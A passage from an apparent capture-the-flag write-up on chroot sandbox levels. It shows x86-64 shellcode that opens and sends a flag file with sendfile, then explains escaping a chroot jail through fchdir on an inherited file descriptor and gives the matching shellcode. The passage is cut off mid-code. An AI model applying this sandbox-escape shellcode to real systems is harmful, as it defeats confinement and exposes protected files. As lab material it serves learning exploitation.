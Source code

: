 ```
	mov rax, 0x02
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

old_path: 
	.string "flag"

new_path: 
	.string "/flag2.txt"

flag:
	.string "flag2.txt"
```

&nbsp;

## level 6 
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "fchdir", "open", "read", "write", "sendfile".

The `fchdir` syscall works similar to `chdir`, the only difference is that it takes a file descriptor as argument.
```
int fchdir(int fd);
```
So we can effectively just jump out of the `jail/`.
```
# Fchdir syscall
mov rdi, 3
mov rax, 0x51
syscall
```

```
.global _start
.intel_syntax noprefix

_start:
	# Fchdir syscall
	mov rdi, 3
	mov rax, 0x51
	syscall

	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
	mov rax, 0x02
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
```